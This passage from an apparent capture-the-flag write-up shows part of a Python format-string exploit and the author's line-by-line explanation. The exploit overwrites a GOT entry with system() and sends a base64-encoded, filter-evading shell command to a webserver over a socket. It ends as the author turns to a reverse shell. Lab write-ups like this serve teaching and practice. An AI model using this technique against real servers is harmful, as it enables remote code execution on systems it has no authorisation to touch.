      56 exploit = b""
     57 exploit += struct.pack("I", puts_got)
     58 exploit += struct.pack("I", puts_got+2)
     59 exploit += f'%53${system_lower - 8}x'.encode()
     60 exploit += b'%53$n'
     61 exploit += f'%54${system_upper - system_lower + pow(2,16)}x'.encode()
     62 exploit += b'%54$n'
     63 
     64 command = f'echo {base64.b64encode(cmd.encode()).decode()} | base64 -d | /bin/sh'.replace(' ', '${IFS}')
     65 
     66 print(f"[*] Command: {cmd}")
     67 print(f"[*] Encoded command: {command}")
     68 print("[*] Sending exploit")
     69 
     70 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     71 s.connect((target_ip, 9999))
     72 s.send(f'{command} /{urllib.parse.quote(pad(exploit))}\r\n\r\n'.encode())
     73 s.close()



Comments:

-   I'll use a `pad` function to make sure my input stays the same
    length each time. Not doing this can make the stack change as I try
    different payloads. \[Lines 11-12\]
-   `get_memory_base_addresses` will use the webserver to leak the
    `maps` file to leak the addresses I need. \[15-19\]
-   There's a lot of code to just calculate different addresses and
    numbers I'll need. \[29-54\]
-   I send the overwrite in two parts. I could do this in one, but it
    would take a long time because I'd have to write a string that was
    in the billions of characters long. Instead, I'll overwrite the
    first two bytes using a few thousand characters, and then the top
    two bytes. This will stomp on the low two bytes of the next word,
    but that's ok. \[56-62\]
-   One other note, the number I want to write the second time is
    `system_upper - system_lower`. But I want this to be a positive
    number always, so I'll add 2\^16 to it. If lower is bigger, this
    gets it back to positive. If upper is bigger, this adds an extra 1
    into the two bytes I'm stomping from a different word, which is
    fine. \[61\]
-   I'll create a single command that echos some base64 into `base64 -d`
    and then into `sh`. Then my input can be the base64 data. \[64\]
-   Connect to the server and send the request. \[70-73\]

### Shell

Now I can run my script to get a shell. In building this up, I tested
with touching a file in `/tmp` and then checking via the webserver. But
once it's working, I can use a reverse shell:
